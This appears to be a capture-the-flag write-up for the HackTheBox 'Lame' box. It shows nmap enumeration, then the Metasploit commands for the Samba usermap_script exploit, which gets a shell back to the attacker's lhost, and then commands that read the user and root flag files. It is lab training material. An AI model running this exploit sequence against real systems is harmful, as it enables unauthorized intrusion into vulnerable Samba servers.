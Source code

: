 # Machine - Easy Linux - Lame

IP 10.10.10.3

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

## Tools

- nmap
- Metasploit

## Enumeration

- At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
- When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation

- Using metasploit we can use the exploit to shell the box.

    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > set lhost tun0
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  
- Now open home folder using terminal and find the user.txt.
   
  ```bash
  cd home
  ls
  cd makis
  ls
  cat user.txt
  ```

- Now goto root folder and find the root.txt.
  
  ```bash
  cd root
  ls
  cat root.txt
  ```

## Walkthrough

<a title="Lame HackTheBox 10.10.10.3 YouTube walkthrough" href="https://www.youtube.com/watch?v=sq0qVn3iLm0&list=PL6vr4adYIJuxZ6tzpWnpici8JX0sdPhwx&index=3" target="_blank">https://www.youtube.com/watch?v=sq0qVn3iLm0</a>


Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
